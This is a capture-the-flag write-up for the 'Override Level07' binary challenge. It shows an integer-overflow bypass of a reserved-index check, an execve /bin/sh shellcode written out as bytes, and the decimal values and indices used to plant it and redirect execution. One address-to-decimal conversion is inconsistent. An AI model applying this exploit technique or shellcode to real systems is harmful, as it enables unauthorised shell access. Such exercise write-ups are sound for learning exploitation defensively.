







# Override- Level07

This is one is the trickest.
We use as always dogbolt.

We have only a prompt to store numbers but we can't store numbers in the index % 3. (This are reserved to Will).

So two questions:
1) The logic way is to put a shellcode in the store data but how to do it if there are provibided index?
2) How can we do a segfault to do the shellcode ?

## Bypass the prohibited index

We can see the return of get_unum it s a int so if we put a number larger then 2147483647 it will be reset to index 0.

## How to segfault ?

We can see a address 0x080488ef in the heap.

That s corresponding to the main function.

So if we overwrite over this function we can have a segfault.

That's working

## Final exploit
We will put his shellcode : \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

index 0 (2147483647) : 31909090 => 831557776
index 1 (2147483648): 2f6850c0 => 795365568
index 2 (1): 6868732f  => 1751675695
index 3 (2): 6e69622f  => 1852400175
index 4 (2147483651): 8950e389 => 2303779721
index 5 (4): e18953e2 => 3783873506
index 6 (5): 80cd0bb0  => 2160921520

The shellcode is in the heap on the memory FFFFD520. So the final index is :
Index -2147483658: FFFFD520 => 4294956352

That's working!

For the terminal only difference the address of the shellcode with 0x20 to add:

Last index -2147483658: FFFFD540 => 4294956352

